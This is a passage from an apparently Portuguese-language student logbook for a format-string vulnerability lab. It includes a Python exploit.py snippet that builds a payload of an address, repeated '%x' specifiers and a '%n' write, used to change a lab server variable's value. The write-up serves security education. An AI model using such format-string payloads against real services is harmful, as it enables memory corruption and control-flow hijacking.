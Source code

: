 O endereço da mensagem secreta é `0x080b4008`. A mensagem secreta é `A secret message`.

## Task 3 - Modificando a Memória do Programa do Servidor

O objetivo desta tarefa é modificar o valor da variável `target` que está definida no programa do servidor (continuaremos a usar o endereço `10.9.0.5`). O valor original de `target` é `0x11223344`. Suponha que esta variável contém um valor importante, que pode afetar o fluxo de controle do programa. Se atacantes remotos conseguirem alterar seu valor, eles podem mudar o comportamento deste programa. Temos três subtarefas.

### Task 3.A: Alterar o Valor para um Valor Diferente
Nesta subtarefa, precisamos alterar o conteúdo da variável `target` para algo diferente. Sua tarefa é considerada um sucesso se conseguir alterá-la para um valor diferente, independentemente de qual valor seja. O endereço da variável `target` pode ser encontrado na saída do servidor.

### Código Utilizado no `exploit.py` para Task 3.A

```python
# Valor único para identificar na pilha
unique_number = 0x080e5068
content[0:4] = (unique_number).to_bytes(4, byteorder='little')

format_string = "%x " * 63 
format_string += "%n"
format_string = format_string.encode("latin-1")
content[8:8 + len(format_string)] = format_string

# Save the payload to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

#### Procedimento

1. **Execução do `exploit.py`**:
   - Executamos o script e depois enviamos o ficheiro `badfile` ao servidor:
  ![Chamada do exploit.py](../img/logbook6-img3.png)
   - Saída esperada no contentor:
  ![Resultado do exploit.py](../img/logbook6-img7.png)
